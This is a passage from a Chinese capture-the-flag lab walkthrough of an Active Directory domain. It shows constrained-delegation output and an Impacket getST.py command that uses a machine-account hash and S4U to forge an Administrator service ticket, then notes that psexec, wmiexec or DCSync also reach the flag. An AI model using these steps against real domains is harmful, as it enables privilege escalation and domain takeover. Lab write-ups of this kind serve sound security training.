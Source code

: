 ```shell
WIN2016$       Computer     Constrained w/ Protocol Transition  ldap/DC01.xiaorang.lab/ForestDnsZones.xiaorang.lab
WIN19-CLIENT$  Computer     Constrained w/ Protocol Transition  cifs/WIN2016.xiaorang.lab
WIN19-CLIENT$  Computer     Constrained w/ Protocol Transition  cifs/WIN2016
```

存在从 `WIN2016$` 到 `DC01` 的约束委派, 并且委派的是 LDAP 服务

利用 S4U 协议请求 ST 伪造 Administrator 用户

```shell
proxychains getST.py xiaorang.lab/WIN2016\$ -hashes :02b2a436556a3dd5d6638ad03f87c43e -dc-ip 172.22.8.15 -spn ldap/DC01.xiaorang.lab -impersonate administrator
```

*本来的思路是想利用票据进行 DCSync 导出域管 Hash 之后再去 psexec 的 (因为委派的是 LDAP 服务), 不过写 Writeup 的时候发现直接 psexec 或者 wmiexec 过去好像也行...*

![image-20230730175613824](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307301756896.png)

flag03 在 Administrator 家目录下

![image-20230730175952312](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202307301759378.png)

## 后记

中间重置了好几次靶机 (

打完后才发现 `WIN2016$` 在 `Domain Admins` 组内, 所以直接 DCSync 也行

查看域委派关系可以发现存在从 `WIN19-CLIENT` 到 `WIN2016` 的约束委派, 猜测或许也能通过 RDP 反打或者其它方式拿到 `WIN19-CLIENT` 的权限, 然后再通过委派拿到 `WIN2016` 的权限?